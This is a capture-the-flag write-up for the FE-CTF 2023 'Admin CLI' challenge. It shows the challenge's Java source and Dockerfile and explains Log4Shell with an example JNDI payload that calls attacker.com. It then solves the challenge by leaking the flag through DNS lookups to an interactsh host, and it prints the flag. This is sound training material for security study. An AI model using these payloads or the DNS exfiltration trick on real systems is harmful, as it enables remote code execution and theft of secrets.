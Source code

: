 ```yaml
---
title: 'FECTF 2023 Admin CLI writeup'
date: 2023-10-30
length: 6 min
author: Alexander
---
```


> **Admin CLI**  
> A (very) early version of the administration tool used for FE-CTF was found. Looks like they only just started making it, but maybe it's already vulnerable?
>
> ```
> nc admin-cli.hack.fe-ctf.dk 1337
> ```
>
> [link to code]

---

<details>
<summary>Table of contents</summary>

- [The files](#the-files)
- [A red herring](#a-red-herring)
  - [How does Log4Shell work?](#how-does-log4shell-work)
- [The actual solution](#the-actual-solution)
- [Exploiting the server](#exploiting-the-server)

</details>

## The files

In the download we get the following 2 files.

<details>
<summary>Dockerfile</summary>

```Dockerfile
FROM ubuntu:22.04

RUN apt update -y
RUN apt install -y wget openjdk-19-jdk unzip socat

USER nobody

WORKDIR /tmp
RUN wget http://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.zip
RUN unzip apache-log4j-2.14.1-bin.zip

COPY Main.java .
RUN javac -cp '/tmp/apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:/tmp/apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar' Main.java
CMD socat -v tcp-listen:1337,fork,reuseaddr system:"java -cp '.:/tmp/apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:/tmp/apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar' Main",stderr
```

</details>
<details>
<summary>Main.java</summary>

```java
import java.util.Base64;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Scanner;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.Level;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.core.config.Configurator;


public class Main {

	/* flag{....} */
	private static String API_KEY = Base64.getUrlEncoder().encodeToString(System.getenv("FLAG").getBytes());

	/* Doesn't seem to be authorized, I don't know why... */
	/* https://backend.fe-ctf.local/removePoints?teamId=0&amount=1000&key=api_key */
	private static int HASH_CODE = -615519892;

	/* Should be safe, right? */
	private static Logger logger = LogManager.getLogger(Main.class);

	public static void main(String[] args) {
		Configurator.setLevel(Main.class.getName(), Level.INFO);
		Scanner s = new Scanner(System.in);
		System.out.print("Enter URL: ");
		String input = s.nextLine();
		s.close();
		try {
			URL url = new URL(input.replaceAll("API_KEY", API_KEY));
			if (url.hashCode() == HASH_CODE && url.getHost().equals("backend.fe-ctf.local")) {
				logger.info("URLs Matched, sending request to {}", url);
				/* TODO: Figure out how to send request
				HttpURLConnection con = (HttpURLConnection) url.openConnection();
				con.setRequestMethod("GET")
				*/
			} else {
				logger.warn("URLs are not equal!");
			}
		} catch (MalformedURLException e) {
			logger.error("Invalid URL");
			System.exit(1);
		}
	}
}
```

</details>

This is a docker container that runs some server. When you netcat it, it asks for a URL. If `API_KEY` is present in the URL, it is replaced with a base64 encoding of the flag. Finally, if the url hash matches some hardcoded hash and domain, it is printed.

## A red herring

If you were on the internet in December of 2021, chances are you've heard of [Log4Shell](https://en.wikipedia.org/wiki/Log4j#Log4Shell_vulnerability), the Log4j RCE that affected every java-using company and their dog. The Dockerfile downloads Log4j version 2.14.1, and wouldn't you know, that's the vulnerable one.

### How does Log4Shell work?

Log4j is a logger that support various special syntaxes in the string. For example, `${java:version}` in a logged string would turn into the version of java used. One of these syntaxes allowed you to request resources from the internet: `${jndi:ldap://attacker.com/payload}`. If `payload` is a Java _class file_, the server will execute it.  
_Take a look at the [HackTricks page](https://book.hacktricks.xyz/pentesting-web/deserialization/jndi-java-naming-and-directory-interface-and-log4shell#log4shell-vulnerability) for more information._

Now to the logging part. The code only logs user input once it passes the hashcode check, which means that we not only have to create a url that matches the hardcoded hash, we also have to include a Log4Shell exploit. Hash collisions are possible, but very hard to pull off in practice, but let's look at the `java.net.URL` `hashCode` method anyway.

```java
protected int hashCode(URL u) {
    int h = 0;

    // Generate the protocol part.
    String protocol = u.getProtocol();
    if (protocol != null)
        h += protocol.hashCode();

    // Generate the host part.
    InetAddress addr = getHostAddress(u);
    [   ...   ]
```

Wait what? So to calculate the hashcode for a URL, Java _gets the IP_ of the host. Turns out that, for [legacy reasons](https://stackoverflow.com/a/2349535/9877700), the way Java determines if 2 URLs are the same is not by looking at the URL itself, but at the _resource_ the url points to. Since multiple domains can point to the same IP, Java decides to look up the IP.  
_HackTricks also has a [page](https://book.hacktricks.xyz/pentesting-web/deserialization/java-dns-deserialization-and-gadgetprobe) for this._

## The actual solution

To get the IP of a domain, Java needs to do a DNS request to said domain. We can listen for this using a tool like [CanaryTokens](https://canarytokens.org/). Simply generate a DNS token and pass it to the program:

```bash
┌──(color㉿COLORDESKTOP)-[~]
└─$ nc admin-cli.hack.fe-ctf.dk 1337
Enter URL: https://h3ft0p3s5pp6gk21b800tvl1f.canarytokens.com
10:05:12.820 [main] WARN  Main - URLs are not equal!
```

and a few seconds later...
![canarytoken email](/media/writeups/fectf23/admin-cli/canarytoken_email.png)

Perfect! This means we should be able to skip the Log4Shell exploit entirely and leak the flag in the DNS request! If we were to pass `https://API_KEY.token.canarytokens.com`, the server should replace `API_KEY` with the flag.  
Sadly, this doesn't work. CanaryTokens doesn't support wildcard subdomains, so the token isn't triggered.

Turns out there's a similar tool that _does_ in fact work with wildcard subdomains: [interactsh](https://github.com/projectdiscovery/interactsh). All we have to do is run the command...

```bash
┌──(color㉿COLORDESKTOP)-[~/go/bin]
└─$ ./interactsh-client
    _       __                       __       __
   (_)___  / /____  _________ ______/ /______/ /_
  / / __ \/ __/ _ \/ ___/ __ '/ ___/ __/ ___/ __ \
 / / / / / /_/  __/ /  / /_/ / /__/ /_(__  ) / / /
/_/_/ /_/\__/\___/_/   \__,_/\___/\__/____/_/ /_/

                projectdiscovery.io

[INF] Current interactsh version 1.1.7 (latest)
[INF] Listing 1 payload for OOB Testing
[INF] ckvo44rjtart315p97ngu7yq3azk3x51j.oast.live
```

...and we get a payload url. If we open it in a browser...

```bash
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:15:26
```

...it gets logged. If we were to append a subdomain such as `flag.ckvo44rjtart315p97ngu7yq3azk3x51j.oast.live`...

```bash
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:16:17
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:16:17
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:16:18
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:16:18
```

...it gets logged too!

## Exploiting the server

Now all we have to do is send the payload to the server

```bash
┌──(color㉿COLORDESKTOP)-[~]
└─$ nc admin-cli.hack.fe-ctf.dk 1337
Enter URL: http://API_KEY.ckvo44rjtart315p97ngu7yq3azk3x51j.oast.live
10:17:31.110 [main] WARN  Main - URLs are not equal!
```

and we should get the base64 flag.

```bash
[ZmxhZ3tVTjNYUDNDVDNEXzNYRjFMVFI0VDEwTn0=.ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 172.253.248.37 at 2023-10-30 10:17:30
```

Decoding that...

```bash
┌──(color㉿COLORDESKTOP)-[~/go/bin]
└─$ echo "ZmxhZ3tVTjNYUDNDVDNEXzNYRjFMVFI0VDEwTn0=" | base64 -d
flag{UN3XP3CT3D_3XF1LTR4T10N}
```

...we've got a flag!
